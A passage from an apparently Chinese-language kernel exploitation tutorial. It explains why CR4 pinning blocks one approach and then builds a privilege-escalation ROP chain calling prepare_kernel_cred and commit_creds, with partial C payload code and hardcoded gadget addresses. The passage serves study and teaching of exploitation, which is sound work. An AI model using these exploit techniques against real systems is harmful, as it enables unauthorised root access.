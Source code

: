 ```
        `}`
        /* Warn after we've corrected the changed bits. */
        WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
              bits_changed);
    `}`
`}`
```

还有这里的一个&lt;a href=”https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255[@beast](https://github.com/beast)/”&gt;文档说明了CR4固定的情况。文档表示在新版本的内核中，CR4寄存器的第20和21位在启动时就固定了不光如此，每次这两位被修改时又会立即重新被设置，也就是说他们`不可能被覆盖`

那么我第一个思路失败了，但至少我们知道在内核态是有权限去修改CR4寄存器的，内核开发者已经意识到我们的这种攻击并且使用相关设置来防御。所以来看看另一更为强大的方案。

### <a class="reference-link" name="Building%20a%20complete%20escalation%20ROP%20chain"></a>Building a complete escalation ROP chain

在第二个方案中，我们已经完全放弃了通过用户区代码进行提权的想法了，而是仅仅通过ROP链来达到提权目的，我们的计划直截了当：
1. ROP执行prepare_kernel_cred(0)
1. ROP执行commit_creds()，参数为上一步的结果
1. ROP执行swapgs; ret
<li>ROP执行iretq并且将栈设置为：**RIP|CS|RFLAGS|SP|SS**
</li>
这个ROP链本身不是很复杂，但难点在于如何用如此多的gadgets来构造他们。就像我之前提到过ROPgadget找到的所有gadgets有很大一部分是不可执行的。因此我必须通过数次的试错来找到正确可用的gadgets，来将第一步的返回值放入rdi传给第二步的commit_creds()。

```
//自己的方案
unsignde long push_rax_pop_rdi_ret = 0xffffffff81e5f09c;
...
payload[off++] = cookie;
payload[off++] = 0x0;    //rbx
payload[off++] = 0x0;    //r12
payload[off++] = 0x0;    //rbp
payload[off++] = pop_rdi_ret;
payload[off++] = 0;
payload[off++] = prepare_kernel_cred;
payload[off++] = push_rax_pop_rdi_ret;
payload[off++] = commit_creds;
...
//原文作者
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret

...
payload[off++] = pop_rdx_ret;
payload[off++] = 0x8; // rdx &lt;- 8
payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi &lt;- rax
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
...
```
